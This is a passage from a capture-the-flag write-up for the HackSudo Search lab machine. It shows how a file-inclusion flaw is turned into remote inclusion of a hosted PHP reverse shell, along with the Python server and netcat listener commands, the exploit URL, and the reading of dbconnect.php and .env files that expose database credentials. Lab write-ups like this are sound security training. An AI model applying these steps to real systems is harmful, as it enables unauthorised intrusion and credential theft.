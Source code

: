After messing around a bit with the LFI and not really getting anything I found that I could turn the LFI into a RFI

I copied the php shell script that you can get from here http://pentestmonkey.net/tools/web-shells/php-reverse-shell 
and put it into my current directory and hosted a web server with python on my kali (attacker) machine and started
a netcat listener on port 1234 then I went to http://10.0.2.254/search1.php?me=http://10.0.2.15:8000/shell.php in the
browser and was able to get a reverse shell from the target machine 

# python server command

```bash
python3 -m http.server
```

# netcat command

```bash
nc -lvnp 1234
```

Once on the target machine I found a file called dbconnect.php inside of /var/www/html/accounts and
read the file and it gave me login credentials for the database

# creds for database login

```bash
hacksudo:p@ssword
```

That didn't get me anywhere so I found another file called .env and when I read the file it gave me other 
credentials 

```bash
www-data@HacksudoSearch:/var/www/html$ cat .env
cat .env
APP_name=HackSudoSearch
APP_ENV=local
APP_key=base64:aGFja3N1ZG8gaGVscCB5b3UgdG8gbGVhcm4gQ1RGICwgY29udGFjdCB1cyB3d3cuaGFja3N1ZG8uY29tL2NvbnRhY3QK
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_USERNAME=hiraman
DB_PASSWORD=MyD4dSuperH3r0!
```
